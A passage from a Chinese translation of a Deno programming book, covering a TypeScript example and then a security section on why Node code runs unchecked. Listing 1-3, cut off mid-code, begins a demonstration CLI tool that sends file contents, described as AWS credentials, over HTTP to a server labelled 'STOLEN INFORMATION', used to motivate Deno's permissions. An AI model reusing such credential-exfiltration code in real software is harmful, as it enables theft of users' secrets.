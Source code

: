 过程本质上是相同的，但是对开发人员来说是完全透明的；从您的角度来看，您只是在执行 TypeScript。这绝对是一个优势；不再需要构建过程，编译时间在解释器内部得到优化，这意味着您的启动时间尽可能快。

我们将在下一章更深入地讨论 TypeScript，但是现在，Deno 的一个简单 TS 示例可以在清单 [1-2](#PC9) 中看到。

```js
const add = (a: number, b:number): number => {
   return a + b;
}

console.log(add(2,4))

Listing 1-2Basic TypeScript example that runs with Deno

```

将它另存为`sample1.ts`并运行它，如下面的代码片段所示(假设您已经安装了 Deno 如果您还没有，请不要担心，我们将在一分钟内完成):

```js
$ deno run sample1.ts

```

该执行的输出是

```js
Compile:
 file://Users/fernandodoglio/workspace/personal/deno/ts-sample/sample1.ts
6

```

请注意前面代码片段中显示的第一行；您可以看到 Deno 所做的第一件事是将您的代码编译成 JavaScript，而您无需做任何事情。

另一方面，如果我们用普通的 JavaScript 编写代码，输出会略有不同:

```js
$ deno run sample1.js
6

```

### 安全

你有没有注意到，有时当你在手机上安装一个应用时，当他们试图访问相机或磁盘中的特定文件夹时，你会被要求权限？这是为了确保您没有安装试图在您不知情的情况下访问敏感信息的应用。

使用 Node，您执行的代码不受您的控制。事实上，我们通常倾向于盲目地信任上传到 npm 的模块，但是你怎么能确定他们真的做了他们所说的事情呢？不可以！当然，除非您直接检查它们的源代码，这对于具有数万行代码的大模块来说是不现实的。

目前保护您数据的唯一安全层是您的操作系统；这将有助于普通用户访问操作系统敏感的数据(如 Linux 机器上的/etc 文件夹)，但访问其他资源(如通过网络发送请求或从环境变量中读取潜在的敏感信息)是完全允许的。因此，从技术上讲，您可以编写一个 Node CLI 工具来完成与`cat`命令一样的基本任务(读取文件内容，然后将其输出到标准输出),然后添加一些额外的代码来读取您的 AWS 凭证文件(如果有的话),并通过 HTTP 将其发送到另一个服务器，在那里您可以接收并存储它。

查看清单 [1-3](#PC13) 中的代码以获得完整的示例。

```js
const  readFile  = require('fs').readFile
const  homedir = require('os').homedir
const  request = require('request')

const filename = process.argv[2]

async function  sendDataOverHTTP(data) {
   return request.post('http://localhost:8080/', {
       body: data
   }, (err, resp, body) => {
       console.log("--------------------------------------------------")
       console.log("-             STOLEN INFORMATION                 -")
       console.log(body)
       console.log("--------------------------------------------------")
   })
```